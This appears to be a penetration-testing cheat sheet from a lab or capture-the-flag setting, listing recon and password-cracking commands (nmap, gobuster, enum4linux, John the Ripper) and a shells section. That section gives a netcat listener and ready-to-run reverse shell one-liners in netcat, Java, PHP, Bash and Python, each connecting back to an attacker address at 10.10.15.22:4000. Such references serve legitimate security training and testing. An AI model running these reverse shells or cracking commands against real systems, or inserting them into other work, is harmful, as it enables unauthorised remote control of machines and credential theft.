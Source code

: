 # CheatSheet

## Webserver

### Python

```python
python -m SimpleHTTPServer
```

```python
python3 -m http.server
```

### PHP
```php
php -S 0.0.0.0:8000
```
### Ruby
```ruby
ruby -run -e httpd . -p 8000
```
## [nmap](https://tools.kali.org/information-gathering/nmap)
```shell-script
nmap -sC -sV -oA nmap/openadmin 10.10.10.171
```
## [gobuster](https://tools.kali.org/web-applications/gobuster)
bruteforce websites to find directories
```bash
gobuster dir -u http:10.10.10.10/ -w /path/to/wordlist
```
##  [CeWL](https://tools.kali.org/password-attacks/cewl)
creates wordlist from website
```bash
cewl -d 2 -m 5 -w genwords.txt https://10.10.10.10
```
## [enum4linux](https://tools.kali.org/information-gathering/enum4linux)
enumerates Windows and Samba systems 

Ports to look for: 445, 139
```bash
enum4linux -U -o 10.10.10.10
```
## [goofile](https://tools.kali.org/information-gathering/goofile)
finding specific filetypes in domain
```bash
goofile -d kali.org -f pdf
```
## [searchsploit](https://www.exploit-db.com/searchsploit)
```bash
searchsploit tomcat
```
## [John The Ripper – JTR](https://tools.kali.org/password-attacks/john)

John the Ripper is different from tools like Hydra. Hydra does blind brute-forcing by trying username/password combinations on a service daemon like ftp server or telnet server. John however needs the hash first. So the greater challenge for a hacker is to first get the hash that is to be cracked. Now a days hashes are more easily crackable using free rainbow tables available online. Just go to one of the sites, submit the hash and if the hash is made of a common word, then the site would show the word almost instantly. Rainbow tables basically store common words and their hashes in a large database. Larger the database, more the words covered.
|Command                                                                 |Description                               |
|------------------------------------------------------------------------|------------------------------------------|
|john –wordlist=/usr/share/wordlists/rockyou.txt hash                    |JTR password cracking                     |
|john –format=descrypt –wordlist/usr/share/wordlists/rockyou.txt hash.txt|JTR forced descrypt cracking with wordlist|
|john –format=descrypt hash –show                                        |JTR forced descrypt brute force cracking  |

## Shells

### Set Listener 
```bash
nc -lnvp 4000
```

### [Reverse Shell](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
#### netcat
```bash
nc -e /bin/sh 10.10.15.22 4000
```
#### Java
```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.10.15.22/4000;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
#### PHP
```php
php -r '$sock=fsockopen("10.10.15.22",4000);exec("/bin/sh -i <&3 >&3 2>&3");'
```
#### Bash
```bash
bash -i >& /dev/tcp/10.10.15.22/4000 0>&1
```
#### Python
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.15.22",4000));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
### Interactive Shell
#### Python 
```python
python -c 'import pty; pty.spawn("/bin/bash")'
```

## Usefuls Scripts
### HEX Converter
```bash
#!/bin/bash
echo $1 | tr -d “\n” | hexdump -e ‘16/1 “%02x “ “\n”
```
